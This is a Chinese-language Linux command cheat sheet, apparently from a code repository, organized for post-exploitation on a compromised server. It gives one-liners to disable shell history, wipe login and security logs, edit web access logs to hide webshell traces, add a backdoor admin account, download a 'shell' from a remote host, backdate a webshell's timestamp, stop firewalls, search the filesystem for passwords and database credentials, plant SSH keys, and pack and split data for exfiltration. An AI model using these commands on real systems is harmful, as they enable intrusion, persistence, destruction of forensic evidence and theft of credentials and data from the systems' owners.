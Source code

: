 # Linux 命令速查

## 本次不记录命令

```
unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG; export HISTFILE=/dev/null; export HISTSIZE=0; export HISTFILESIZE=0
```

## 常用日志清理

```
echo > /var/log/btmp;echo > /var/log/wtmp;echo > /var/log/lastlog;echo > /var/log/utmp;echo > /var/log/syslog;cat /dev/null > /var/log/secure;cat /dev/null > /var/log/message;echo ok
```


- /var/log/btmp   记录所有登录失败信息，使用lastb命令查看
- /var/log/lastlog 记录系统中所有用户最后一次登录时间的日志，使用lastlog命令查看
- /var/log/wtmp    记录所有用户的登录、注销信息，使用last命令查看
- /var/log/utmp    记录当前已经登录的用户信息，使用w,who,users等命令查看
- /var/log/secure   记录与安全相关的日志信息
- /var/log/message  记录系统启动后的信息和错误日志

## Web 日志清理

```
直接替换日志ip地址:
sed -i 's/127.0.0.1/192.168.1.1/g' access.log

清除部分相关日志:
使用grep -v来把相关信息删除:
cat /var/log/nginx/access.log | grep -v evil.php > tmp.log

把修改过的日志覆盖到原日志文件:
cat tmp.log > /var/log/nginx/access.log
```


## 设置终端代理

```
export https_proxy=http://127.0.0.1:7890 http_proxy=http://127.0.0.1:7890 all_proxy=socks5://127.0.0.1:7890
```

## 查看用户登录记录

```
last
```

## root 权限创建管理员用户

```
sudo useradd -m testt && echo "testt:admin@123" | sudo chpasswd && sudo usermod -aG wheel testt
```

## cURL/wget 下载文件

```
wget -P /tmp/ http://x.x.x.x:8080/shell
curl -o /tmp/xxx http://x.x.x.x:8080/shell
```

## 文件时间修改

> 修改 /www/wwwroot/shell.php 时间为 2024.05.16.24

```
touch -t 202405161200.24 /www/wwwroot/shell.php
```

## 查看 DNS 服务器

```
cat /etc/resolv.conf
```

## 停止防火墙

```
systemctl stop firewalld && service iptables stop && ufw disable
```

## 搜索敏感信息

```
find / -regex ".*\.properties\|.*\.conf\|.*\.config\|.*\.yaml\|.*\.sh|.*\.jsp|.*\.log|.*\.txt|.*\.xml" | xargs grep -E "=jdbc:|pass=|passwd=|aliyun|password"
```

## echo 写文件

```
//直接 echo 写入：
echo xxx > /www/xxx.jsp

//base64 写入：
echo eHh4ZGFzMQ== | base64 -d > /www/xxx.jsp

//追加
echo xxx >> /www/xxx.jsp
```

## 写入 ssh 公钥：

```
echo c3NoLXJzYSBBQUFBQjNOemFDMXljMkVBQUFBREFRQUJBQUFCQVFEazRVTjhFUTFXOFBWMQ== | base64 -d > authorized_keys
```

```
//使用  printf 在末尾处插入，如需换行可添加\n
//参考https://baijiahao.baidu.com/s?id=1727019063436737118&wfr=spider&for=pc

printf "ssh-rsa xxx" >> /root/.ssh/authorized_keys
```

## 压缩打包文件

```
//将 /home/mail /home/web 两个目录打包至 /tmp 目录下命名为web.tar.gz
tar czvf /tmp/web.tar.gz /home/mail /home/web

//zip
zip -r /tmp/web.zip /home/mail /home/web

//可使用 -x 排除，如:
zip -r /tmp/web.zip /home/mail /home/web -x /home/mail/test.txt -x /home/web/log/*
```

## 分割上传

```
split -n 3 fscan  //分割为 3 个文件
split -b 500k fscan  //以 500 K 大小分割 fscan

Windows 合并：
copy /b xaa+xab fscan
type xaa xab > fscan

Linux 合并：
cat xaa xab > fscan
```

